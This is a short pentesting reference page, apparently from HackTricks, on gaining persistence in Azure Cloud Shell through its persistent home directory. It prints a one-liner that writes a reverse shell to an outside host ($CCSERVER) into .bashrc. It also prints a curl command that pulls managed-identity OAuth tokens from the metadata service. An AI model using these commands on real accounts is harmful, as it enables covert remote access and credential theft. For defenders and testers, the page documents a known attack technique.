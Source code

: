 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Azure Cloud Shell offers command-line access to manage Azure resources with persistent storage and automatic authentication. Attackers can exploit this by placing backdoors in the persistent home directory:

* **Persistent Storage**: Azure Cloud Shell’s home directory is mounted on an Azure file share and remains intact even after the session ends.
* **Startup Scripts**: Files like .bashrc execute automatically at the start of each session, allowing for persistent execution when the cloud shell starts.

Example backdoor in .bashrc:

```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```

This backdoor can execute commands even 5 minutes after the cloud shell is finished by the user.

Additionally query Azure’s metadata service for instance details and tokens:
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```


{{#include ../../../banners/hacktricks-training.md}}

